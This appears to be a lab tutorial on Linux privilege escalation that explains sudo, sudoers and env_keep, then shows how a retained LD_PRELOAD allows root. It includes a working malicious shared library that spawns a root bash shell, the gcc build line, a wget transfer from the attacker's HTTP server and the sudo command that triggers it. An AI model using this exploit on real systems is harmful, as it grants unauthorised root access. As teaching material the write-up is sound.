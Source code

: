 # Background on Sudo

Sudo allows access to restricted files by temporarily elevating the privileges of the user to the `root` user. Sudo was introduced as a safer way to elevate privileges by mitigating the risks associated with unrestricted access to the root account by executing only the command as the root user.

For users to use the `sudo` command, they must be in the sudoers file located at /etc/sudoers. To edit the sudoers file, you should use the following command to open the file with 'visudo', which parses the file for syntax errors.
```
sudo visudo
```

To add or remove accounts from the sudoers file, the user has to be in the sudo group which can be arranged by using the command:

```
sudo usermod -aG sudo [username]
```

You can check your user's privileges by running the command: `sudo -l`

```
Matching Defaults entries for kayem on kali:
    env_reset, env_keep+=LD_PRELOAD

User kayem may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`env_reset` is an option that defaults environment variables before running the command with sudo, unless the environment variable is added to the list of preserved variables with the `env_keep` option. In the example above, we can see that the `LD_PRELOAD` environment variable is retained when resetting the environment.

To restrict `LD_PRELOAD` from loading in arbitrary shared libraries, dynamic linkers ignore the environment variable if the real user ID (ruid) is different to the effective user ID (uid). The real user ID represents the user who executed the sudo command and the effective user ID represents the user ID under which the process is running. For instance, when running processes with sudo, the ruid will be 1000 but the uid will be 0 (root), so the environment variable will be ignored. 

# Practical

Using the `sudo -l` command, I discover that the user `kayem` has access to three programs: find, less, and nano. We can abuse the `LD_PRELOAD` environment variable by uploading the following C program to spawn a root shell.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
The program can then be compiled into an object file with the following gcc command:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Once compiled, we can host a python3 HTTP server to transfer the object file from our machine to the target machine. We can start an HTTP server with the command:
```
sudo python3 -m http.server 8000
```
And download the file on our target machine.
```
wget http://[IP address]:8000/shell.so
```

Finally, we run the following command to spawn our root shell.

```
sudo LD_PRELOAD=/home/kayem/shell.so find
```

This command runs the "find" program with sudo rights so thus the whole command is run with sudo rights and then the LD_PRELOAD environmental variable is set to the specified path.
